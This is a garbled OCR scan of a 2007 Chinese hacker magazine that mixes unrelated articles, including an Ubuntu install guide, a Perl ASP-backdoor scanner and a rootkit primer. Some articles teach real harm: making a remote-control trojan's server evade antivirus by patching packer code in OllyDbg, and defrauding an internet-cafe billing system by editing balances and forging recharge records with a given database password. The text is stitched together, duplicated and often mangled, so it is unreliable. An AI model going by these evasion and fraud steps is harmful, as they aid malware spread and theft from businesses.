@net start WINService
@del %systemroot%\system32\hack\brc_Server.exe
@del %systemroot%\system32\hack\heydong.exe
@del %systemroot%\system32\hack\reg1.reg
@del %systemroot%\system32\hack\reg2.reg
@del %systemroot%\system32\hack\system.dll
@del %systemroot%\system32\hack\hd.vbs
```

# 五、小结

到此为止，关于黑洞远程控制的自定义设置，以及相关文件的免杀操作，就为大家介绍到这里。其实这种服务端程序的自定义方法，大家完全可以应用到其它的木马程序上，只要大家发挥自己想象力，不仅可以创建属于自己的服务端程序，还可以有效地躲过主防病毒的检测。

编辑点评：由于左侧子域对杀毒、导致很多人都朝向了黑洞、pcshare 等工具去了，其实只要掌握了原理，对这些工具进行免杀处理本上还是不够的，此本文的处理技术并不是最终，普及加壳加入并不是一件简单的方法，但是能够给免杀服务程序，免杀的效果还是不错的。近年来总的杀软的修改中发现，不再是以前的手工免杀技巧比较多的文字了，更多专家开始报道的储备着前例的免杀技术。

# 再过宝贝数据流——修改加壳代码

从本文你可以学到：
如何修改壳代码

## 操作原理分析

这里我还是简单地讲一下，金山数据流和虚拟机脱壳的区别。虚拟机脱壳是：是在正常的系统内存中扩大一个虚拟环境，在虚拟机运行后将这个程序的壳先代内。再进行文件特征码的对比。“矿山数据流”则直接分析程序在执行进程中的数据流特征，因为病毒文件在运行后常先会自行解壳，从而感觉出程序壳以外的原始代码，这样杀毒引擎会及时做出响应。当然，这里的数据流解析方式并不是针对某个软件作定位，而是对某类加壳的文件进行处理。

既然“壳”本身就是一段特征代码，其实很多都等待着成为壳的某些壳。这种终死哦所获取的虚拟代码，最终展示给用户的实际代码，就是为了隐藏文件最核心的代码。这里的免杀技术只是一种给壳的处理，只会对代码进行提取，达到文件免杀的效果，还可以对内嵌进行多重加壳的文件进行处理。

## 文件实际操作

- 1. 修改壳压缩

首先我们配置一个木马服务端程序，接着运行“壳压缩”这款加壳程序，将服务端程序拖动到窗口上释放，就可以成功地完成加壳处理操作。我们在只要双击针对这里设置的操作，对于使用程序 OllyDbg 载入加壳后的服务端，结果程序自动就停留在添加的这个壳的代码处。首先选中其中的第一句代码，点击右键


- 2. 修改加密加壳

现在我们再利用一个全新的黑客程序，接着进行伪加密破解操作。利用伪加密处理后，点击“文件”按钮选择黑客程序，接着将“保护进程中的所有内容”，最后点击“加密”按钮进行成功加密。利用同样方法，把关闭的程序重新操作，在用程序中选中的一句代码，在“汇编”窗口中将 PUSH 修改为 POP。


- 3. 修改北斗加壳

现在我们再用同大家常见的北斗程序对服务端加壳，运行北斗加壳程序后将服务端拖到界面，按照程序的默认设置直接加壳就## Linux 爱好者手册 2007.11【图 例】

可以了。接着还是利用同样的方法用 OllyDbg 载入，然后对下面的三句代码进行修改。这里我需要提醒大家一下，北斗程序版本不同，代码也有所差异。

对花指令代码的修改过程，但是添加或删除汇编代码一定要注意，修改后必须保证汇编程序堆栈的平衡状态就可以了，不然修改后的文件就可能无法正常运行。另外推荐大家在修改代码的时候，利用多种方法组合使用，不要只单一地使用一种方法，不然的话很难起到充分的作用。


点击右键菜单中的“汇编”命令，在“汇编”窗口中将三行代码依次修改，如图3。

### 4、修改 FSG 加壳

FSG 也是一款不错的加壳程序，但用它加壳后服务端的体积几乎小了一半。利用它加壳后运行到 OllyDbg 载入服务端程序，并且对下面这样的三句代码进行修改：


点击右键菜单中的“汇编”命令，在“汇编”窗口中将三行代码依次修改，如图4。

除了进行汇编代码的替换、调换以外，我们还可以在原来的汇编代码基础上，添加一些全新的代码或者一些代码。具体的操作过程，可以参考 2007 年第 7 期《木马免杀之花指令变形》中对花指令代码的修改过程，但是添加或删除汇编代码一定要注意，修改后必须保证汇编程序堆栈的平衡状态就可以了，不然修改后的文件就可能无法正常运行。另一方面推荐大家在修改代码的时候，利用多种方法组合使用，不要只单一地使用一种方法，不然的话很难起到充分的作用。

> 改版感言：
> 
> 推开窗户，你将拥有一个世界……
> 
> 如果你要我来唱，如果你需要我帮助来改变，我将会改变 Linux 是一个非常优秀的操作系统，我们要做的，就是让它永远健康。如果你能坚持热爱的歌唱，窗外的这次改版，这位以自己的力量，结果像只是不要悄悄，勇敢的拼搏的门窗。加入我们，一起体验生活的多彩。

点评：之前，Linux 下的游戏实在可谓是“惨不忍睹”。而现在，一款三本好玩的网游已经到来，随着 Linux 在桌面平台中的不断发展，Linux 下的游戏也会很受更多人的重视。可以预感到，不久的将来，Linux 设备会成为一种全新的平台和环境。


# Alien Arena 2007 推出新版——打破最强的开源游戏

10 月 12 日，COR Entertainment 技术引发了 Alien Arena 2007 的 V6.10 版。Alien Arena 2007 是一款流行的免费软件，3D 模式，第一人称射击类游戏，基于 id Software 的 Quake II 引擎，在 2001 年以 GPL 许可协议开源。

点评：Mozilla 日益流行的桌面游戏节奏三大操作系统。继 Mozilla 公司高层表示他们正在开发一款浏览器之后，该项目一名开发人员日前向媒体透露，手机版火狐浏览器专门里将来移动系统，Linux 和 Symbian 大手机操作系统。

# Mozilla 人员称手机版火狐将兼容三大操作系统

Mozilla 公司高层表示他们正在开发手机版火狐浏览器之后，该项目一名开发人员日前向媒体透露，手机版火狐浏览器可望同时兼容移动、Linux 和 Symbian 三大手机操作系统。

# 最新为 Ubuntu Linux 做好准备

# Ubuntu

为什么要以 Ubuntu 开始呢？因为小编觉得 Ubuntu 是目前最适合新手学习 Linux 时用的发行版，至于原因，等你用过几十个 Linux 发行版之后，你自然就会明白了。现在你要做的就是，相信我，没错的。

要开始你的 Linux 之路，你必须要拥有一个自己的 Linux 系统，所以我们 Ubuntu 专题的课程安排就是先让你安装并配置出一个属于你的 Ubuntu。然后，你将学习到一些基本的常识和概念，比如 Linux 的分区结构，文件管理方式，权限和用户等东西。接着，你将了解到 Linux 中一些先进的结构和思想，像窗口管理的机制等。你要记住，这会让你受益无穷。最后，在这些基础上，你已经完全有能力管理好一台真正的 Linux 服务器了，这也是本专题的最后部分。

好了，废话说多了也没有意思，直接开始我们的 Ubuntu 之旅吧！

# Ubuntu 世界之旅

## Ubuntu 7.10 新手全接触之安装设置篇

标签：Ubuntu 3D 安装 配置

2007 年 10 月 18 日，在众多开源人士与软件爱好者的万众瞩目下，代号为 Gutsy Gibbon 的最新版 Ubuntu 7.10 正式发布了。这个版本与以前的版本相比更加人性化，包含了许多最新的软件套件，有 GNOME 2.20，Desktop 3D effects（Compiz Fusion 0.6），真正即插即用的打印机服务，为 Linux 进入办公室领域提供了良好的支持等等，其他众多新的特性读者可以参阅 Ubuntu 的官方主页 http://www.ubuntu.com。

看了上面一段话也许你该问作者，什么是 Linux？什么又是 Ubuntu？什么是 Gnome？没有关系，在下面的文章里面您会将会得到一一的解释，各位有打算了解的慢慢道来……

Linux 到底是什么？简单而言，Linux 是一种免费的操作系统。和微软的视窗 Windows 系列差不多的系统，都是装在电脑上面给用户使用的。能跑 Windows 的机器肯定也能跑 Linux，反过来说不一定成立，举些例子：SUN 或者 IBM 的服务器，苹果公司的 Mac 等等，Linux 可以支持这个世界上绝大部分的计算机构架。关于 Linux 更详细的解释如下：

第一、Linux 其实是单核、由内核和用户构成的一个 Linux OS；
第二、Linux 是某个公司或者团体的一个 Linux OS；
第三、Linux 重点特性是支持多核；
第四、Linux 是全开源的；
第五、Linux 的用户是可以自由修改的；
……

不过，Windows 是许多人用的应用比较广的系统之一。它和 Linux 的关系并不大，Linux 与 Windows 并用的理由很多，对于本刊的读者，最大的理由是爱好，因为它们不会像一个合法用户那样在电脑上得到某个地址的东西……

……

还在类比中说，Linux 为什么受欢迎？因为 Linux 的开发者、使用者以及贡献者都可以自由地修改它，Windows 和 Linux 的最大区别是，前者是闭源而后者是开源。

- 一个多类型的 3D 界面
- 多套品牌的虚拟技术
- 多点识别设备支持
- 多任务桌面管理机制
- 服务器版本的 7.10 将带有：
- 更简便的网络管理
- 一步到位的服务器配置
- 主动的 AppArmor 安全技术，提供更多的系统安全选项
- ……

桌面：GUI 是 Linux 界面设置的重要因素，不可不说，Ubuntu 是用户首次接触 Windows 的界面设计最少 Linux 下的系统之一，而对于大家之，Ubuntu 也被看作是 Windows 之后又一个主流，现在存在于，仅是时间问题。

公司的 Mac 等等，Linux 可以支持这个世界上绝大部分的计算机构架。关于 Linux 更详细的解释如下：

第一、Linux 其实是单核，构成和内核和用户成的一个 Linux OS；
第二、Linux 是某个公司或者团体的一个 Linux OS；
第三、Linux 重点是支持多核；
第四、Linux 是完整的开源软件；
第五、Linux 的用户是可以自由修改的；
……

那为什么要用 Linux 而不用简单易用的 Windows 呢？理由很多，对于本刊的读者，最大的理由是爱好。因为 Windows 在 Linux 面前在于一个合格的桌面系统，如果仅在 Windows 下用开发 VC 编译器 exprs？是肯定不够的，更不用说那些只会用现成工具的骇客了。Linux 不同于 Windows，它的编程语言，基本上除了不能跨平台的语言（比如 VB）不支持，其它的编程语言都能支持，重要的是节约资源，提高资源的效率。……

还有其他吸引人们用 Linux 的理由，第一是 Linux 下没有病毒，Linux 的运行机制排除了病毒生存的土壤。什么？！这个还不够吸引你？那么请先把一个不科学 Linux 的理由，Linux 桌面的漂亮胜过 Windows 桌面。……

什么是 Ubuntu？前面也提到了 Ubuntu 是 Linux 发行版中的一种，它的历史并不算悠久，但是它的易用性使得越来越多的人们开始关注它。Ubuntu 是一个非常平民的桌面发行版，中文含义类似“人性的世界”等等，最令人喜欢的是它有着个性的界面，而且非常适合新手使用。Ubuntu 这个词在一些语源学中会有不同的解释，但这里不用纠结这个问题……

下面我们在一台已经装有 Windows XP 的机器上安装一个 Ubuntu。首先是准备工作，PC 电脑一台，这台电脑只要不是我们之前所谓的年代机器，CPU T2310、GL960 的芯片组、X3100 的集成显卡、1G 的 RAM 等等，如果 Ubuntu 能在这台新的电脑上安装，那么老硬件在其他电脑上应该没有什么大问题。事实上我接触的机器包括最早 1999 年的赛扬 300A 到最新的酷睿 2，我都在上面安装了 Ubuntu，没有什么问题。假如我们要新的光盘版本，一种称为 Desktop Live CD 版本，一种是 Alternative 的，本文采用 Desktop 安装，如果不希望装那么麻烦，我可以用后面一张光盘来做用户将要来安装。安装 Ubuntu 还需要一定的……

# 【高手记事簿】2007.11 →【图外】

空间，我建议最少给 Ubuntu 不少于 5G 的空间，你可以清空你的一个盘，比如一个 10G 大小的盘留给 Ubuntu 用。有了这些先决条件我们就可以正式进行 Ubuntu 安装之旅了。

把电脑设置成光驱启动，光盘放入光驱，在一阵读盘声后将出现这个画面，如图1。

都是英文？没有关系，按下 F2，选择简体中文就可以了，直接回车选择第一行“启动或安装 Ubuntu”，在漫长的进度条前等待几分钟就可以看到桌面了。在这个过程中不要心急，毕竟是 Live CD 版本，在一张光盘上放一个操作系统，这个可是要比 WinPE 强大的多的系统。

如果你想体验一下 Ubuntu Live CD 的强大，你可以打开桌面上的 Examples 文件夹，里面有一些常见的文件，第一一个就是前面已经总您都提到的来历；如果你没有兴趣，请直接双击桌面上的“安装”图标来安装系统。最后跳出一个对话框，直接按“前进”按钮进入下一步，第二个对话框让你选择你的语言，因为在进入系统的时候已经选择好简体中文了，所以这里还是按“前进”按钮进入下一步，下面设置你所在的时区，可以从下拉菜单里面找，也可以直接从地图上点，这里选择 Shanghai（GMT+8:00），如图2。

第四步是键盘布局，如果是一般的机型直接按前进，如果是日本带来的机器可以选择日文的键盘布局。

再下一步非常关键，要特别小心，不要到时候一失足成千古恨，把重要数据丢失了哟。比如这里要硬盘的分区，我建议用“手动”分区，你也可以选择“向导……”或者“Guided……”，省略号后面的字母每个人的分区有关，但是千万不要选择那个“向导”——使用整个盘！！选了这个系统就只有 Ubuntu 了，到时候或许就要作别了。一般而言 Ubuntu 会自动认出你的空闲分区加以利用，但是有时候也认不清楚，所以选择“手动”比较主动，按前进进入下一步，如图3，这里可以看到你硬盘的分区状况。

我这里是 C 盘 10G，D 盘 20G，E 盘 10G，假设我准备在 E 盘上安装 Ubuntu，我们选中 /dev/sda6 这一行，直接按当中的 “Delete Partition”，你会看到如图4的画面。

这样子就空出 11482M 的 Free Space 用来安装系统，选择 Free Space 后，点一下 “New partition”，如图5，大小改为你的 1.5 倍左右。

我这里设置了 1024M，“Use as”的下拉菜单里面选择“swap”，这是 Linux 里面的交换分区，类似于 Windows 的虚拟内存，不过容量要比它高，交换分区的大小最好要比内存大，反正硬盘空间要不用才动嘛，几百 G 的，是要小的话，像我就不能用休眠功能啦，明白，在剩下的 “Free Space” 里面我们也新建一个分区，不过 “Use as” 我们用 ext3，OK 以后，我们再去看 ext3 有什么大名堂，在最后的 “Edit partition” 里的 “Mount point” 选择 “/”，如图6。

这个就是我们安装 Linux 所在的分区，一般而言只要这两个分区就可以了。确定以后，还是前进进入下一步，这时候填入你的个人信息，如图7。

其中的登录名和密码一定不要忘了，以后进入系统的时候就靠它了，再次前进后出现如图8的信息，按下 Install 进入全自动安装阶段。在这时键盘本来就不用人工干预了，不过如果你想要你的电脑联网的话，到 83% 和 94% 的时候会下载安装语言包，如果速度实在太慢，直接 skip


# 网络 E 卡通

从本文中你可以学到：
1. 网络 E 卡通数据库的结构。
2. 网管如何从数据库中发现小黑加钱的痕迹。

本文仅限技术研究，并不用于非法用途，作为网管的，也可以以此为方法来检测非法中件的小黑。

首先为大家介绍最常见的刷法，打开数据库，密码是：zomnhzjwjw，我用 access 打开。打开后找到 Members 表，在其中搜索自己卡号（或者姓名），找到属于自己的条目后，修改其 CurMoney 字段为想要的余额信息，保存就好了。但是如此修改后的数据并不会立即生效，因为服务端的数据（内存中的）由于正忙在使用，所以还是没法被需要结账、需要上网的什么信息是否为空，如果要这样做，就要等到服务员下班后，或者你在某个时间内修改过以后的数据都会清零。

跳过，这个语言包就先画面里不包含，一张光盘 700 张不可能把世界上几十种语言都包含进去的，这个语言包可以等我们进入了系统再另外安装，所以这里直接 skip 了。当中文装完 grub 引导程序的时候会发现你安装的 Windows，直接键定就可以。安装完成的时候出来了如图 9 的画面，点击“现在重启”，等到光盘弹出，取出光盘，再回车一次，机器就正式启动了。

像我的机器前半一直开了几个小时不小心就突然全部成了光盘的安装，接着重启之后，网络安装向前迈有来好的些中文日，可能有些读者会有点问题，驱动呢？主板驱动、显卡驱动、声卡驱动装好了？答案是肯定的，Ubuntu 不需要额外的其他驱动，安装好了进入系统就能用了，比起 Windows 要省事多了。当然现在在系统老加工的 XP 也有这样的功能，不过可能都会说，特别是后来广告，还是挺吓人的。

机器在重新启动的时候就多了一个 grub 引导菜单，如图 10。里面可以引导你的 Ubuntu 和 Windows，默认进入 Ubuntu，回车或者等待 10 秒钟机器开始进入系统，输入用户名密码后进入了 Ubuntu 的默认桌面 GNOME，最关键要注意的是，唯一的不同在于现在的桌面因为语言包没有安装的情况下，可能说汉语或英语拼写是一样的。没有关系，我们接着安装好语言包就 OK 了。

首先第一步是上网，因为笔者的网络是局域网，所以启动以后可以直接获得 IP 上网，我想很多朋友家里都用宽带路由的，这就最好不过，如果是 ADSL 上网的用户比较简单，除了网络选项菜单里选择进入系统以后，选择左上角的“Applications 系统工具 终端”调出类似 XP 的 cmd 命令窗口，输入 sudo pppoeconf，回车以后输入自己 ID 和密码，稍等一秒钟就可以配置 ADSL 的连接了。完成后会提示是否启动系统时自动连接，选择是就要在路由上断开，等系统登录入 Ubuntu 再启动拨号即可。然后假如你要连上网以后我们就需要检查安装的软件包，接着点击上方的 “System 系统管理 软件源”，在弹出的对话框中输入系统密码。

把上面的两个方框都选好，接着下一步选择“中国的服务器”，点关闭，在弹出的对话框中点击“重新载入”，稍等片刻即可。这步完成后，就能安装中文语言包了，点击 “System 系统设置 Language Support”，如图 12。

滚动条拉下勾上 Chinese，点击 apply，稍等一会就设置好了语言包，这个时候重启一下你的系统，就可以得到一个完全中文的 Ubuntu。

整个安装过程如果除去下载时间应该不会超过 1 小时，当然机器不能太老，内存至少 256 M 以上，此时你就可以在 Linux 世界里面自由地翱翔了，Firefox 可以帮你上网，Pidgin 可以帮你上 MSN、QQ、Gtalk 等全兼容 IM……如果你在安装过程中有任何问题可以上 Ubuntu 中文论坛寻找帮助，本文只是一个 Howto，限于篇幅很多原理都没有讲，见谅！

# 王安合作黑客手册 2007.11 -> 过河吧

的，如果聊天你在里面看到“比萨可疑”之类的东西，那么就放到了）……附图，咔咔呵呵！偶做你们！

如图1。


充值总额和消费总额表都标出来了，你需要做的就是在修改余额的时候注意下面两个字母，别太小了（如果你像样的话）。还要保住充值总金额和消费总金额大一些，但是也不可以调整太多。别人可能会担心上机的时间就记录了，究竟可以告诉你：E 进没服务功能！如图2。


看，只有号码和姓名（为了保守起见，我将真的人的个人信息都截了，但是对不是什么信息了，还有客户机上的编号，没错了上不了多久买的东西，至于其他的，我都看了，绝对没有。下面讲解充值记录的具体问题。充值记录存于 LSellInfo 表中，如图3。

我们要为自己弄点充值记录，甚至是“找回”老板利益的前提下。那么就改卡别人的吧，呵呵。修改任意记录的 CardNumber 值为你自己的卡号，但是要注意后面店员 SellTime 字段


显示的时间，别连续改多个时间靠近的记录为自己所用，那也是可疑行为，除非你确实想“创造”出短时间内多次充值的“事实”。本质内其他的字段就不了，小心改出错误了——如果你对网管感兴趣还可以在 LUserInfo 表中找到网管的一些信息，比如账号、密码、密码提示问题、答案、电话、QQ，呵呵，可以拿去表外工程序里修改用啊（^_^）。当前让 LAccounts 里有信息可用，如果不知道怎么改好别乱改，容易出错，这没有什么可用价值。至于最后的 LUserRight 是一些管理员的权限设置，如果你愿意也可以改一改。

数据库介绍完了，下面来介绍下它的程序结构问题。在程序的安装目录下面的“网吧服务端”目录下有一个“Log”文件夹，我目前还不知道里面记录的是什么信息，很乱，并且也没有条件改坏掉数据，就没法知道了。我要和程序的 SQL 语句有关，文件夹也许是做这件事情，所以我给各位改过的东西应该用不了，如果你是网管，也同样可以用到这些知识去做你对其内部的本来当灰黑共享，我只是莫名 MG 一样，在别人打仗的时候突然出来配器了……

编辑点评：又是一篇关于网吧安全的文章，也许有些小黑者过来网管“活捉”的经历，看来这篇文章大概应该被“封网管”是为做好反黑技术维护。这类文章的内容如果你真的在执行中某些不可用性的改动，如果你用来打就快快所为忽略掉它也没关系。

# 教你几招网吧安全上网的绝技

从本文中你可以学到：
1. 利用 vbs 脚本防范木马的方法
2. 关于 QQ 防范的一些技巧
3. 下载文件时避免中马的方法
4. autorun.inf 封木马的防范

看文章名字，大家也许猜得出我是网吧一族，既然是网吧一族，就把自己如何在网吧安全上网的一些技巧与大家分享！

首先，我们要重视网吧里的安全防范，这一条网民人肉都觉得……

## 一、防止网马最这么来

常在网上走，哪能不湿鞋，俗话说的好，万恶之首，在这个木马与后门齐飞的年代，防范网马已经成为网上马传播的必备手段了！

尤其是在网吧，网管是异常的慷慨，而现在的挂马技术又如出招新，流量庞大的网站越容易被搞，我们不可能每个网页都进行 httpdebug 等工具去查看网页的源代码，看见的是有 iframe src="xxx.com/muma.html" 这类伟大的挂马标志！

对于武工等站，想到了方法自然是脚本，解决这个问题，只要一段小小的 VBS 脚本就可以轻松地搞定！

```vb
set shell="wscript.createobject(\"wscript.shell\")"

shl.run "runas.exe /user:nhoack npc", "Program\Intern\IEXPLORE.EXE"  
wscript.sleep(10000)
```

把这个脚本丢到 QQ 硬盘里，每次上网运行它就可以防范网马了，原理很简单，因为 Windows 是一个多用户多任务的操作系统，我们以 nohack 账户运行了浏览器，即使中了网马，也是针对 nohack 这个用户而不是针对我们上机的 administrator 账户！

另外注意一点，要运行这个脚本，必须保证 runas 服务可用！如果被禁止了，可以在运行中输入 services.msc 通过服务重启启动！

## 二、QQ 安全得这么来

上面说道我们要把脚本保存到 QQ 硬盘中，那么 QQ 自然要先保证安全。对于 QQ 安全，我们首先要申请密码保护，另外，随意看 IM 即时通信软件的运行应用，很多时候通过它进行前端类的交流，所以还需要对本地聊天记录进行加密以防止被人恶意窃取。

方法是在“个人设置”中，依次找到“安全设置”——“本地信息安全”窗口，在右侧栏目中把“启用聊天记录加密”前的勾选上，然后自己设立口令就行了！当然还可以根据需要设置为加密口令登录、设置为自定义聊天记录保护等级，如图1所示！


## 三、下载的文件得这么玩

我们上网经常会下载很多 RM 或者 RMVB 格式的视频文件，很早的时候网上就出现了通过 RM 或者 RMVB 视频文件传马的工具，对于下载的这些文件，我们只需把它通过 RM 文件的转换工具，后来有一类软件能够让其运行后如图 3 所示。


在这里文件中找到要过滤的文件，在另存为中选择文件过滤后存储到磁盘的位置，需要注意点，我们得给过滤后的文件起一个名字，然后点击开始过滤，过滤完成后就可以慢慢欣赏了！

另外，玩黑的朋友经常会下载很多黑客工具，但是从老招那里就传下来一种游戏规则叫黑吃黑，当然从网上下载来的黑客工具，味道有很多时候并不鲜亮，这时候我们要创建一个 nohack 的账户，然后把如下代码存为 runexe.vbs：

```
ifile=inputbox("输入程序路径：", "请输入文件名：", "download.exe")
set shell= wscript.createobject("wscript.shell")
shell.run "runas /user:nohack \"" & i_file & "\""
wscript.sleep(1000)
```

以后要运行下载后的文件，只要先运行这个 vbs 脚本，在弹出的窗口中输入要运行程序的路径和程序名，如图 4 所示，然后依照提示输入 nohack 用户的密码，123 就可以绕过在网吧上网成为别人肉鸡的危险！

## 四、autorun.inf 病毒不可不查也

最近几年，autorun.inf 这种双刃剑就把整个网络搞的是一塌糊涂，先是有使用该文件进行 webshell 提权，然后 autorun.inf 病毒风靡到现在，还仍然继续风起，问题越来越迫切了。因此我们吧一堆、经常需要到网吧下 MP3、用 U 盘拷点黑客工具，通过移动硬盘拷点网名安全的教程，如果我确保不会被 autorun.inf 病毒，那可就绝对能稳住了吧！

首先第一点，我们需要重新利用移动存储设备中带的加密程序，有了 autorun.inf 这类动作的小工具，结合 autorun.inf 的操作，我们可以设置自定义文件来控制 U 盘的打开方式，以防止病毒感染。

其次，要在 U 盘或者移动硬盘中，建立一个名为 autorun.inf 的文件夹，将属性设置为隐藏只读，防止病毒查找！最后，即使被病毒感染，我们也可以采用安全的查杀方法，比如利用 attrib 命令和 del 命令。首先通过 attrib 命令将 autorun.inf 文件的属性修改为隐藏、只读、系统，完成后再通过 del 命令删除感染文件。

当然，当我们中毒的时候，如果真的慢，可以直接下载 USBCLEANNER 进行删除，该工具可以在某一部分 autorun.inf 病毒时飞快地清除！


从本文您可以学到：

- 简单了解 Perl
- 正则表达式

我的学员常常会问到，为什么我们在写程序的时候会用到正则表达式？其实，正则表达式很有用，但它不是万能的。我们今天要学习的是 Perl 里的一些简单概念，先从正则表达式开始。

```
^(?i).*\.asp/?i
```

这句代码完成了对变量中是否含有 .asp 字符串的判断。关键在于正则表达式的匹配，经过后缀的判定，这样的代码是难以理解的。

# 非安全黑客手册 2007.11 · [快码加编]

《String::/Perl/Perl6/》

## 在 String 中查找字符 Perl 替换为 PerlB

回到第一个例子，我们说从语言角度的表达式要找寻的字符串“.asp”，但是为什么表达式是“.\asp”而不是直接的“.asp”呢？这是因为“.”在正则表达式里有某些特殊的意义，代表一个任意字符，这里的“\”起的是转义作用。在正则表达式中还有很多特殊保留字符，如“?”，要将其作为一个普通字符使用时，就需在其前面加上“\”符号转义。关于特殊字符可参见我们的参考教材《ThinkInPerl》2.16中的元字符表，这里也就不再讲解。

正则表达式的最后一部分是修饰符，用于描述正则表达式的特性。第一个例子的“i”，表示的就是在查找匹配时忽略字母大小写。修饰符的列表，我们也可以在参考教材《ThinkInPerl》2.16的基本类型一节中找到。

简单了解正则表达式后，我们用正则表达式的匹配功能来完成今天的实例程序。这次要写的是一个查找 asp 后门的小程序，简单描述下程序的功能，就是将文件中的 asp 文件全部列举出来后再通过文件名把已知 asp 后门特征字符找出，找出 asp 后门。实现起来也很简单，下面看一下具体代码：

```
perl
#!/usr/bin/Perl
use strict;

my @asp;

if($#ARGV<0){
    print("\naspdosscanner.pl <filename>\nusage: \n   aspdoscanner.pl [folder]\nmade by wo1fSea(Chase,Young'h) [w. Group] 2004-2007  \n");
    exit(1);
}

my $folder=$ARGV[0];

# 使用严格语法检查，声明全局数组@asp，定义运行参数为 asp 文件所在文件夹路径和相关的初始值。

my @re = scan("$folder");
find(@re);

# 调用 scan 函数，返回值得存入 @re 数组，再调用 find 函数。
# 能够列举出文件夹中所有 asp 文件，find 函数功能为查找已知 asp 后门特征字符

sub scan{
    my $path = shift;
    #将参数放入 path，这里参数设为 asp 文件所在文件夹

    opendir(F, $path);
    # 打开文件夹，用到操作符 opendir()，这个与上节所讲的 open() 相似，
    # 第一个参数为文件句柄，第二个参数为文件夹路径。

    my @fs = readdir(F);
    # 用 readdir() 读取文件夹目录（含其中的子文件夹），存入 @fs

    if($#fs>0){
    # 判断 @fs 中元素个数是否为0，$#fs为@fs的检索，对应 @fs 的最大下标，
    # 当 @fs 中元素个数为0，$#fs 大于0为无

    splice(@fs,0,2);
    # 去除 @fs 中的前 2 个元素，因为 readdir() 返回值前两个是“.”和“..”，
    # 对应的分别是上级目录和当前目录，去除避免重复遍历，splice() 是一段数组操作函数，可以参考《ThinkInPerl》中的数组一节。

    foreach my $i (@fs){
        if($i=~/^\.(asp|php)$/ || $i=~/\.sf$/){
            # @fs 循环赋值 $f，判断 $f 文件名是否含 .asp，是方向路径遍历到 @asp 数组，采用正则检查字符，
            # 字符串中连续换行符，连接后 2 个字符，采用“i”执行转义，
            # 字符串中连续换行符的字符集，插入并一起压缩成 “\” 的样子，
            push(@{$asp},$path/$i);
        }
    }
}

```

```
perl
foreach my $i (@fs){
    scan($path."\".$i);
}
# 若函数递归调用，在文件夹中的子文件夹进行遍历，找到 i 继续递归，
# 的参数应是文件夹路径。语句就是通过连接字符串，打印目录名（含子目录）和 i，避免分开遍历；同时也把开头空行做了处理。

return @asp;
# 返回 @asp，即为包含路径的 asp 文件列表

sub find{
    my @asp = @_;
    # 将传递来的 asp 文件列表存入 @asp 中

    foreach my $asp1 (@asp){
        open(FILE,$asp1);
        my @text = <FILE>;
        close FILE;
        # 打开 asp 文件，读取到 @text 中

        open(FILE,'CA.txt');
        my @CATXT = <FILE>;
        close FILE;
        # 打开 CA.txt 特征字符串文件，读取到 @CATXT 中

        chomp @CATXT;
        # 去除每行的过行符

        splice(@CATXT,0,1);
        # 过滤 CA.txt 特征字符串文件的第一行，打开 CA.txt 文档就知道，第一行是我的格式选择

        my $CA=@CATXT;
        # 把 @CATXT 存入 hash 表对象 $CA 中，其中按照我写的 CA.txt 格式，asp、
        # 后门名称对应为 hash 交给的 key，特征字符成为值：hash 空表正确一串的文字就里有模板图。
        # 但没有讲解，所以这节依然就参照《ThinkInPerl》2.7.6哈希表中

        foreach my $text (@text){
            foreach my $key (@{$CA}){
                chomp $key;

                if($text=~/$CA[$key]/){
                    print "find $asp $key\n";
                }
            }
        }
    }
}
```

整个程序新手看起来可能还是觉得有些复杂难明，因为从这几节短短的篇幅要了解一个语言，并且写出几个简单的黑软实在是不容易。别急，这位文章所写的也仅仅是我学习 Perl 的的经验心得，整个 Perl 的学习历程和《ThinkInPerl》也很不容易，只能有些内容还不太理解，很多功能都是要实战中去学习。这次这本书不算在下诩得不到的神作，或者应该叫可以真正做到上手的工具书，透过对《ThinkInPerl》中的学习，可以直接学习 Perl 的各种基础知识，有什么不明白需要专心多看看。下面要讲的是关于 Perl 取数据的应用，所以至少我们学习程序要变成个可以实战的助手书。在这里我们用行查找和文件代码构造的一个小程序，找到本节所讲的内容，再举一个小例子如何访问论坛并找出其中的 asp 木马（共几个，一个约十多天的...）结果如下图1所示。就应该要有，什么问题，可以到论坛发言。（作者遇到的查找 asp 后门的代码已经我来成在光盘中）

# RootKit 交响曲 1

【图】虚拟水晶

从本文您可以学习到：

- 了解 rootkit
- 掌握编写驱动的基本方法

## 前奏演讲

RootKit 这个词相信有人已经接触过了吧，毕竟是10年前的词了……

首先 RootKit 的定义，它只是一种技术，关键是运用到它。KV2008 107924 版本的时候采用了这个技术来占据，可听，给大家看一段网上的讨论：

KV2008 的 SysGuard.sys 驱动加载后，会在安全模式加载，WINDOWS system32\drivers\删除掉安全的挂载方式，好坏坏不易真正删除文件，也强行加载驱动的服务未加正不在,如果防毒应该是被加载器了，但是这个是没把系统组件在不同驱动的兼容性方面， 其中有一个 SysGuard 很可疑。 IceSword 也看不出什么的,试图以后再去装载机制。

看起来很厉害，据说卸载程序也如和平静的这个东西，也可以说 rootkit 也是在一个计算机上窃取控制系统来控制的程序代码。面可以肯定对其都是根源代码和数据的，简单点说就是它可以隐藏文件和目录，诸如此类使它们的功能和操作远比一切超级隐蔽而苛刻的访问和窃听等。那明明要做这个东西呢？貌似就算一个驱动嘛。我们首先要学会的就是写一个驱动。

## 前奏准备知识和工具

首先要会 c 语言，还要了解一些计算机原理方面的知识，并需要一套 DDK，在微软的下载中心里我只找到了 Win98/ME 和 2003 的 DDK，安装的时候一直默认就可以了。还需要一个 DebugView 和一个好点的编辑器，这里就不推荐什么了，只用记事本也没关系。具体下载网址如下：

```
WinNT-DDK: http://www.vckbase.com/tools/dw/nt4ddk.zip
Win98-DDK: http://www.vckbase.com/tools/dw/98ddk.zip
Win2K-DDK: http://www.vckbase.com/tools/dw/2000ddk.zip
WinXP-DDK: http://www.vckbase.com/tools/dw/win2kddk.exe
WinXP-DDK: http://210.21.117.86/down/ocx/wnxpdk.zip
DebugView: http://download.sysinternals.com/Files/DebugView.zip
```

## 我的第一个 rootkit

首先新建一个目录用于存储我们的文件以及其他文件混乱。

新建一个“.c”文件，并用编辑器打开后写入下面的代码，整理就 as d.v 为文件名了。

```
#include "ntddk.h"
```


编辑点评：
正规表达不仅仅在 Perl 中才可以使用，在其他高级语言中同样适用，只不过是描述的方式不同，实际是完全相同的。

```
NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING theRegistryPath)
{
    DbgPrint("Hello World, mynameis...");
    return STATUS_SUCCESS;
}
```

大家可以看到这个源代码与平时所写的 c 源代码不一样，我们来对比一下。经典的程序源代码一般是：

```
